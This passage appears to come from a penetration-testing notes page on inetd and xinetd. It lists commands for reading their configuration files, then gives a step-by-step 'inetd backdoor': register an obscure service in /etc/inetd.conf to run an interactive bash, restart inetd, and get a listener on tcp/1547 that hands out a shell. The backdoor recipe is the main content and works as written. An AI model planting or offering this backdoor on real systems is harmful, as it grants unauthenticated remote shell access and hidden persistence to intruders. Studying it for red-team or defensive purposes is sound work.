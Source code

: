 The extended Internet services daemon (xinetd) replaced inetd, performing the same function as inetd, but in a more secure manner by providing service-specific configuration options for access control, enhanced logging, binding, redirection, and resource utilization control. Typical xinetd services include Remote Shell (RSH), FTP, telnet, and Post Office Protocol 3 (POP3).

- **cat /etc/inetd.conf/\* 2>/dev/null** - contains a list of network services that tell inetd which ports to listen to and which server programs to run in response to service requests
- **cat /etc/xinetd.conf/\* 2>/dev/null** - sets the number of active servers, specifies logging settings, limits the number of incoming connections, and reads all files in /etc/xinetd.d
- **cat /etc/xinetd.d/\* 2>/dev/null** - contains additional settings, including a disable parameter which is set to yes by default. 

### Example inetd backdoor:
```
Pick an obscure service from /etc/services associated with a tcp port 1024 and above...for example laplink
	laplink         1547/tcp     # laplink

Add the following line to /etc/inetd.conf
	laplink    stream  tcp     nowait  /bin/bash bash -i

restart inetd.conf
	$> killall -HUP inetd

This creates a listener on port tcp/1547 that will shovel you a bash shell. 
```
